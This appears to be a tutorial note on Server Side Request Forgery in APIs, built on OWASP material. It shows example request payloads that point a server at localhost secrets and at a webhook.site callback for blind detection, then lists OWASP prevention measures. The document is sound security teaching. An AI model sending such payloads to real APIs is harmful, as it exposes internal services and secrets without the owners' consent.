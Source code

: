 ## Intro

API7:2023 Server Side Request Forgery is a vulnerability that takes place when a user is able to control the remote resources retrieved by an application.  An attacker can use an API to supply their own input, in the form of a URL, to control the remote resources that are retrieved by the targeted server. 

An attacker could supply URLs that expose private data, scan the target's internal network, or compromise the target through remote code execution. SSRF is also number 10 on the 2021 OWASP Top 10 list and is a growing threat to APIs.

## [OWASP Attack Vector Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Exploitation requires the attacker to find an API endpoint that accesses a URI that’s provided by the client. In general, basic SSRF (when the response is returned to the attacker), is easier to exploit than Blind SSRF in which the attacker has no feedback on whether or not the attack was successful._

## [OWASP Security Weakness Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Modern concepts in application development encourage developers to access URIs provided by the client. Lack of or improper validation of such URIs are common issues. Regular API requests and response analysis will be required to detect the issue. When the response is not returned (Blind SSRF) detecting the vulnerability requires more effort and creativity._

## [OWASP Impacts Description](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

_Successful exploitation might lead to internal services enumeration (e.g. port scanning), information disclosure, bypassing firewalls, or other security mechanisms. In some cases, it can lead to DoS or the server being used as a proxy to hide malicious activities._

# Summary

Server Side Request Forgery (SSRF) is a vulnerability that takes place when an application retrieves remote resources without validating user input. When an attacker has control over the resources a server requests then they can gain access to sensitive data, or worse, completely compromise a vulnerable host.  

The impact of this vulnerability is that an attacker would be able to leverage the target server to perform and process requests that they supply. Note that bug bounties payouts for SSRF are driven based on the impact that can be demonstrated with a proof of concept. The higher the demonstrated impact, the higher the bounty.

There are two general types of SSRF that are worth noting: In-Band SSRF and Out-of-Band (Blind) SSRF. In-Band SSRF means that the server responds with the resources specified by the end user. If the attacker specifies the payload as [http://google.com](http://google.com/) to a server with an In-Band SSRF vulnerability the server would make the request and respond to the attacker with information served from google.com. Blind SSRF takes place when the attacker supplies a URL and the server makes the request but does not send information from the specified URL back to the attacker. In the case of Blind SSRF, an attacker would need control over a web server that will capture the request from the target to prove that they were able to force the server to make the request.

**Intercepted Request:**
```
POST api/v1/store/products
headers…
{
	"inventory":"http://store.com/api/v3/inventory/item/12345"
}
```
**Attack:**
```
POST api/v1/store/products
headers…
{
	"inventory":"§http://localhost/secrets§"
}
```
**Response:**
```
HTTP/1.1 200 OK  
headers...  
{
	"secret_token":"SecretAdminToken123"
}
```

# Out-of-Band SSRF Example

Out-of-Band (or Blind) SSRF takes place when a vulnerable server performs a request from user input but does not send a response back to the attacker indicating a successful attack. In other words, the victim server makes the request to the URL specified by the attacker, but the attacker does not receive a direct message back from the victim server. In this case, to know if the request was made an attacker will need to have some control over the web server that is specified in the attack.

**Intercepted Request:**
```
POST api/v1/store/products
headers…
{
	"inventory":"http://store.com/api/v3/inventory/item/12345"
}
```

**Attack**:
```
POST api/v1/store/products
headers…
{
"inventory:"§http://localhost/secrets§"
} 
```

**Response:**
```
HTTP/1.1 200 OK  
headers...  
{}
```

In this case, the response is returned and we do not have any indication that the server is vulnerable. Instead of http://localhost/secrets, an attacker can leverage the URL to a web server that will let them see if a request is actually made. Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL. 

![[Pasted image 20240831214912.png]]

By navigating to webhook.site a random URL will be created. The randomized URL can be used as a payload and track to see if any requests are made to the site from the vulnerable API. An out-of-band SSRF attack would look more like this.

**Attack**:

```
POST api/v1/store/products
headers…
{
	"inventory":"§https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0§"
 }
```

Once the request is sent the third party site can be checked for any new requests.

![[Pasted image 20240831214931.png]]

This demonstration of SSRF was done using a third-party site that captures the IP address of the server that sent the request. This process will demonstrate that an API is in fact vulnerable to out-of-band SSRF.

## [OWASP Preventative Measures](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

- _Isolate the resource fetching mechanism in your network: usually, these features are aimed to retrieve remote resources and not internal ones._
- _Whenever possible, use allow lists of_
    - _Remote origins users are expected to download resources from (e.g. Google Drive, Gravatar, etc.)_
    - _URL schemes and ports_
    - _Accepted media types for a given functionality_
- _Disable HTTP redirections._
- _Use a well-tested and maintained URL parser to avoid issues caused by URL parsing inconsistencies._
- _Validate and sanitize all client-supplied input data._
- _Do not send raw responses to clients._

## Additional Resources

- [Server Side Request Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [URL confusion vulnerabilities in the wild: Exploring parser inconsistencies, Snyk](https://snyk.io/blog/url-confusion-vulnerabilities/)
- [Web Security Academy: SSRF](https://portswigger.net/web-security/ssrf)
